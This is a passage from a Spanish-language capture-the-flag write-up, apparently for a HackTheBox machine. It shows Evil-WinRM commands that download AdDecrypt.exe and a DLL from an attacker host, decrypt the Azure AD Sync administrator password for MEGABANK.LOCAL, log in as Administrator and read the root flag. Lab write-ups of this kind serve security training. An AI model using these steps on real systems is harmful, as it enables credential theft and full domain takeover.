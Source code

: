 En caso de pertenecer a este, es posible llegar a obtener la credencial de cualquier usuario. Para ello utilizo el repositoiro [AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt)

```null
*Evil-WinRM* PS C:\Temp> iwr -uri http://10.10.16.9/AdDecrypt.exe -o AdDecrypt.exe
*Evil-WinRM* PS C:\Temp> iwr -uri http://10.10.16.9/mcrypt.dll -o mcrypt.dll
*Evil-WinRM* PS C:\> cd "C:\Program Files\Microsoft Azure AD Sync\bin"
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\bin> C:\Temp\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL

Puedo ver la segunda flag

```null
evil-winrm -i 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
126312d9b20d47e4fe18c54d3aedff1b
```